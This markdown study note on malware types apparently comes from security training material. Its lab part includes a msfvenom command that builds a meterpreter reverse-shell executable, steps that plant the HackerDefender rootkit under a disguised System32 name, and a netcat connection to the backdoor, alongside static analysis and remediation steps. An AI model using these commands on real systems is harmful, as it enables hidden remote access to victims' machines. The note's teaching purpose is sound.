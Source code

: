 # Malware Threats

1. What is malware
2. Analyze and classify malware

## 1. Malware

* Virus
* Worm
* Trojan
* Hybrid
* Ransonware
* Fileless
* Malvertising
* Adware
* Spyware

### Virus

* Host
* User interaction

### Worm

* Self-propagate
* Examples
  * Self-propagate
  * SQL Slammer
  * ILoveYou
  * MS Blaster
  * Stuxnet

### Trojan

* User interaction
* Email or websites
* Fake antivirus/updates pop ups

### Hybrid

Combine different types into a hybrid type.

* Bots

### Ransomware

* Encrypt data
* Examples
  * WannaCry
  * Locky

### Fileless

* Running malware at the memory level instead of file level
* Registry keys
* Scheduled tasks
* APIs
* >50%

### Malvertising

* Drive-by downloads that execute code without user interaction
* Common in news portals

### Adware

* Ads
* Browser
* Freeware

### Spyware

* Covert monitoring
* Harvest browsing information
* Stealing Credentials
* Screen capture
* Capture email data

## 2. Analyze and Classify

### Static analysis with Kali Linux

Suppose you are given samples from email attachments.

1. Emulate the malicious file.

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse-tcp LHOST=192.168.0.100 LPORT=433 -f exe -o maliciousfile.exe
```

2. Using _Binwalk_ we will performed an automated analysis by _scanning for common signatures_.

```
binwalk -B maliciousfile.exe    // static analysis
binwalk -3 maliciousfile.exe    // 3D analysis
binwalk -A maliciousfile.exe    // Find commonly used No Operation Opcodes (NOP) used in exploits to land shellcode.
```

3. Using _Exiftool_ we can produce similar information.

```
exiftool maliciousfile.exe
```

4. Hash file with _MD5Deep_ and add this to your analysis report for future references.

```
md5deep maliciousfile.exe
```

### RootKit discovering with Windows

We can use the _Rootkit Revealer Tool_.

1. Place a rootkit, you can use a simple rootkit such as _HackerDefender_ from _carnal0wnage_, let's run `cmd` and the following commands.

```
tasklist                    // list processes & choose a process to mimic, we will use some similar name
netstat -an                 // find currently open ports, pick one next to the legitimate ones already open
cd "C:\Windows\System32"    // change directory to the rootkit, so it looks like a legitimate system file
rename <rootkey EXE> <fake_process_name>.exe
rename <rootkey INI> <fake_process_name>.ini
```

2. Make sure rootkey is properly configured (`.ini` file) with fake process name, ports and settings and load initializatio nfile into memory.

```
<fake_process_name>.ini -:refresh
```

3. Run rootkit

```
./<fake_process_name>.exe
```

4. Now lunch _Rootkit Revealer_ and scan. You should discover your rootkit if using well known files such as _HackerDefender_ example.

#### Rootkit exploitation example

If you were happen to use _HackerDefender_ rootkit, you would be able to connect with _Netcat_ to victim.

```
netcat <target_ip> <open_port>
hostname // verify connection
```

#### Remediation

1. Find suspicious processes with _Rootkit Revealer_ and `cmd` -> `tasklist`.
2. Stop suspicious process with `taskkill /F /pid <PID#>`.
3. Confirm suspicious service in `services.msc`.
4. Delete suspicious service `sc delete <service name>`.
5. Using registry information from _Rootkit Revelear_, find those keys in `regedit` and delete everything you can.
6. Verify RootKit removal running scans again.
